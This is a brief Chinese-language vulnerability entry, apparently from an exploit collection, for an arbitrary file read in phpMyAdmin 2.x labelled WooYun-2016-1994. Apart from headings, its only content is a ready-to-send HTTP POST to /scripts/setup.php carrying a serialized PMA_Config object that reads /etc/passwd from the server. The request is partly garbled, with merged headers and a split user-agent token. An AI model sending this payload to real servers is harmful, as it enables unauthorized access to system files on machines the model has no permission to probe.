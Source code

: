 （WooYun-2016-1994）Phpmyadmin 任意文件读取漏洞
===============================================

一、漏洞简介
------------

二、漏洞影响
------------

phpMyAdmin2.x 版本

三、复现过程
------------

    POST /scripts/setup.php HTTP/1.1 
    Host: www.0-sec.org:8080
    Accept-Encoding: gzip, deflate Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trid ent/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded Content-Length: 80
    action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
